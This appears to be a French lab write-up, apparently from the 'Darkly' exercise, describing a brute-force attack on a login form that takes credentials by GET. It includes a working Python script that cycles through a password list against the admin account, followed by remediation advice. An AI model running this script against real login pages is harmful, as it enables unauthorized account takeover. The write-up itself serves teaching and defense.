

# Brute Force



## Description

Le Brute Force est une attaque consistant à tester automatiquement une grande quantité de mots de passe jusqu’à trouver celui qui permet l’accès à un compte.

## Comment reproduire la faille

1. Identifier le fonctionnement du formulaire

La page de login utilise une requête GET lors de la soumission du formulaire :
```http://10.13.248.4/?page=signin&username=admin&password=<TEST>&Login=Login#
```
L’absence de protection rend la page vulnérable au brute force.

2. Préparer une liste de mots de passe

Créer un fichier contenant des mots de passe fréquents :
```passwords.txt
```

3. Utiliser un script Python pour tester automatiquement les mots de passe

Exemple de script :
```import requests

url = "http://10.13.248.4/?page=signin"

username = "admin"
passwords_file = "passwords.txt"

FAIL_KEYWORD = "WrongAnswer"  # texte affiché lors d'un échec

with open(passwords_file, "r") as f:
    for pwd in f:
        pwd = pwd.strip()
        if not pwd:
            continue

        params = {
            "page": "signin",
            "username": username,
            "password": pwd,
            "Login": "Login#"
        }

        response = requests.get(url, params=params)

        print(f"[ ] Test : {pwd}")

        if FAIL_KEYWORD not in response.text:
            print("\n=== MOT DE PASSE TROUVÉ ! ===")
            print(f"username = {username}")
            print(f"password = {pwd}")
            break
    else:
        print("Aucun mot de passe valide trouvé.")
```

Le script :

lit chaque mot de passe du fichier,

envoie une requête à l’URL vulnérable,

détecte la réussite en observant l’absence du message d’erreur.

4. Résultat

Lorsque le mot de passe correct est testé, le serveur renvoie une page différente.
Le script affiche alors :
```=== MOT DE PASSE TROUVÉ ! ===
username = admin
password = <mot_de_passe_trouvé>
```

L’attaquant obtient ainsi un accès total au compte administrateur.


## Recommandation pour empêcher la faille

Pour éliminer la vulnérabilité, il est nécessaire de mettre en place :

Limitation du nombre de tentatives (rate limiting / lockout).

Temps d’attente progressif après plusieurs échecs.

CAPTCHA après un certain nombre de tentatives.

Méta-données de sécurité (IP tracking, alertes).

Hash sécurisé des mots de passe (bcrypt/argon2).

Journalisation des tentatives anormales.

Ces protections permettent de rendre le brute force impraticable.

## Conclusion

L’absence totale de mécanismes de sécurité sur la page de connexion de Darkly permet une attaque par brute force simple et rapide.
Grâce à un script automatisé, il est possible de tester des centaines de mots de passe et d’accéder au compte admin.
La mise en place de protections basiques côté serveur est indispensable pour empêcher ce type d’attaque.